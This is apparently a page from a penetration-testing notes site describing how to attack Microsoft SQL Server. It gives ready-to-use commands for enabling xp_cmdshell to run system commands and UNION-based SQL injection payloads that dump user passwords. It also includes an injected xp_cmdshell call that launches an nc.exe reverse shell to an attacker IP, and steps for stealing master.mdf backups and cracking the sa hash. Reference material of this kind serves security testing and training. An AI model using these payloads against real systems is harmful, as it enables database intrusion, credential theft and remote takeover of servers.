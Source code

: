 ```yaml
---
title: PORT 1433/tcp - Microsoft SQL Server
category: Services
order: 11
---
```


# Introduction

Microsoft SQL Server is a relational database management system developed by Microsoft. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications—which may run either on the same computer or on another computer across a network.

# Syntax

```
select CURRENT_USER
select name from master..sysdatabases
select name from music..sysobjects  WHERE xtype = 'U'
select name from syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'users')
select user, password from users
```

# RCE With Credentials

## sqsh

```
sqsh -S <IP-ADDR> -U <user> -P <pass> -D <database>
```

In MSSQL there is a procedure called **xp\_cmdshell** that receives a command from Windows, executes it and return the result as rows of text. Although the most common case is that the user of the application does not have permissions to execute the **xp\_cmdshell** procedure because is disabled by default, it has been seen on several occasions that, due to a misconfiguration, it does have permissions to enable it.

We need to configure `xp_cmdshell`.

```
1> EXEC SP_CONFIGURE N'show advanced options', 1
2> go
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> EXEC SP_CONFIGURE N'xp_cmdshell', 1
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> RECONFIGURE
2> go
```

Once configured we can execute commands with `sqsh` or `crackmapexec`.

```
1> xp_cmdshell 'dir c:\';
2> go
```

## crackmapexec

We can execute code in a easier way with crackmapexec.

```
crackmapexec mssql -u sa -p password --local-auth -x 'whoami'
```

# SQL Injection in MSSQL

To understand the vulnerability visit the following page link.

* [SQL Injection](/hackingnotes/web/sqli/)

Some SQLi payloads are the following (supposing that the original query return two values):

```
' union all select 1,2 -- -

# Current User
' union all select CURRENT_USER, 2 -- -

# Databases
' union all select name, 2 from master..sysdatabases -- -

# Tables from database "music"
' union all select name, 2 from music..sysobjects  WHERE xtype = 'U' -- -

# Columns from "users" table
' union all select name, 2 from syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'users') -- -

# Dump a table
' union all select user, password from users -- -
```

We can also append commands on the query and execute commands with the procedure **xp\_cmdshell.**

```
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; -- -
'; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; -- -
'; EXEC xp_cmdshell '\\10.10.10.10\share\nc.exe -e cmd.exe 10.10.10.10 443' -- - 
```

# LFI or File Download to RCE

If we are able to download any file of the system and has the MSSQL port open, we can retrieved the **sa** hash.

We need to download a copy of the master.mdf file located on:

```
C:/Program Files/Microsoft SQL Server/MSSQL14.SQLEXPRESS/MSSQL/DATA/master.mdf
or
C:/Program Files/Microsoft SQL Server/MSSQL14.SQLSERVER/MSSQL/DATA/master.mdf
```

Since the file is running we can not read it, so we need to find a backup. Some backups are available here:

```
C:/Program Files/Microsoft SQL Server/MSSQL14.SQLEXPRESS/MSSQL/Backup/master.mdf
```

Once downloaded we can dump the hashes with [XPN script.](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)

* [https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)

> **Note:** The code fails while trying to load OrcaMDF dlls, see the following pull request to fix it.
>
>[https://github.com/xpn/Powershell-PostExploitation/pull/2](https://github.com/xpn/Powershell-PostExploitation/pull/2)

_File changed:_

![Tothi pull request.](/hackingnotes/images/file_changed.png)

We just need to import the module and extract the hashes.

```
Import-Module Get-MDFHashes.psq
Get-MDFHashes -mdf master.mdf
```

![Dumping mdf hashes](/hackingnotes/images/mdf_hashes.png)

We can crack it with Hashcat (mode 1731).

```
hashcat -a 0 -m 1731 hash.txt /usr/share/wordlists/rockyou.txt
```

Once obtained the credentials we can execute code with `crackmapexec` or `sqsh`.

* [https://blog.xpnsec.com/extracting-master-mdf-hashes/](https://blog.xpnsec.com/extracting-master-mdf-hashes/)

# **References**

* [https://www.tarlogic.com/blog/red-team-tales-0x01/#:\~:text=In%20MSSQL%2C%20there%20is%20a,occurs%20in%20the%20original%20query.](https://www.tarlogic.com/blog/red-team-tales-0x01/#:\~:text=In%20MSSQL%2C%20there%20is%20a,occurs%20in%20the%20original%20query.)
* [https://dotcppfile.wordpress.com/2014/07/24/reading-files-in-mssql-injection-tutorial/](https://dotcppfile.wordpress.com/2014/07/24/reading-files-in-mssql-injection-tutorial/)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
* [https://blog.xpnsec.com/extracting-master-mdf-hashes/](https://blog.xpnsec.com/extracting-master-mdf-hashes/)
